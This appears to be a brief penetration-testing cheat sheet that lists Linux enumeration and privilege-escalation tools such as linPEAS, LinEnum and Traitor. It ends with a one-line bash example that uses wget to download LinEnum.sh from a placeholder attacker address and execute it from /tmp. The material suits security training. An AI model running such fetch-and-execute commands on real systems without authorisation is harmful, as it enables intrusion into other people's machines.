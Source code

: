 ## Automated Enumeration Scripts for Linux Hosts


### 1: Linpeas from the PEASS suite		Author: https://github.com/carlospolop/PEASS-ng/releases

### 2: LinEnum				Author: https://github.com/rebootuser/LinEnum

### 3: Linux Exploit Suggester (LES)	Author: https://github.com/The-Z-Labs/linux-exploit-suggester 

### 4: Linux Smart Enumeration		Author: https://github.com/diego-treitos/linux-smart-enumeration

### 5: Linux Priv Checker			Author: https://github.com/sleventyeleven/linuxprivchecker

### 6: Traitor                Author: https://github.com/liamg/traitor



PROTIP: Automated enumeration scripts might give false positives or false negatives, so don't always rely exclusively on the presented results from the scripts.

Example LinEnum execution script

    #!/bin/bash
    wget -q http://<your-ip>/LinEnum.sh -O /tmp/le.sh && bash /tmp/le.sh
